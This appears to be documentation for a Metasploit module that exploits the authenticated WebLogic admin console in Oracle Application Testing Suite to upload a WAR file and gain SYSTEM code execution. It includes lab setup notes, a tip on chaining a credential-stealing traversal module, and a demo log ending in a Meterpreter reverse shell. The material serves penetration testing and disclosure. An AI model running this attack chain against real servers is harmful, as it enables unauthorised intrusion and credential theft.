 
## Background

Oracle Application Testing Suite (OATS) is a comprehensive, integrated testing solution for web applications, web services, packaged Oracle applications, and Oracle databases. OATS is part of an application deployed in the WebLogic service on port 8088, which also includes these tools: Administrator, OpenScript, Oracle Load Testing, and Oracle Test Manager.

In the administrator console, the deployement feature can be abused to upload an arbitrary WAR file, allowing remote code execution under the context of SYSTEM. Authentication is required.


## Vulnerable Application

The following is the exact setup I used to test and analyze the vulnerability:

- Windows Server 2008 R2 x64 (other Windows systems are also supported)
  - .Net Framework 3.5 enabled (from add/remove features)
  - IE ESC (from Server Manager) disabled
  - 8GB of RAM (at least more than 4GB will be used to run OATS)
  - Duel-Core processor
- oats-win64-full-13.3.0.1.262.zip (x86 did not work for me)
- Jdk-7u21-windows-x64.exe
- OracleXE112_Win64.zip (Newer version 18c did not work well for me)
- Firefox (I had to install this because IE on Win2k8 is completely outdated)
- Adobe Flash installed (IE ESC needs to be disabled in order to install this)

For installation instructions, please refer to the Oracle Application Testing Suite Installation Guide.

## Notes

For Oracle Application Testing Suite (OATS), you may use the auxiliary/gather/oats_downloadservlet_traversal module to download the server's encrypted credentials, decrypt them using a third-party tool, and then use this module to gain remote code execution.

## Credit

Special thanks to Steven Seeley to assist on the development of the Metasploit module.

## Demo

```
msf5 exploit(windows/http/oats_weblogic_console) > check
[*] 172.16.135.128:8088 - The target service is running, but could not be validated.
msf5 exploit(windows/http/oats_weblogic_console) > run

[*] Started reverse TCP handler on 172.16.135.1:4444 
[+] Logged in as oats:VeryPhat1337
[*] Ready for war. Codename "lawrence" at 6256 bytes
[*] FRSC value: 0x59c5c771ae7d83c8440d7c45d2610dca5a0aa304a9e89e4c
[*] Server replies: "The file lawrence.war has been uploaded successfully to C:\\OracleATS\\oats\\servers\\AdminServer\\upload"
[+] Operation "lawrence" is a go!
[*] Code 200 on "lawrence" request
[*] Sending stage (53866 bytes) to 172.16.135.128
[*] Meterpreter session 1 opened (172.16.135.1:4444 -> 172.16.135.128:49337) at 2019-05-18 18:07:27 -0500
[+] Successfully undeployed lawrence.war

meterpreter >
```
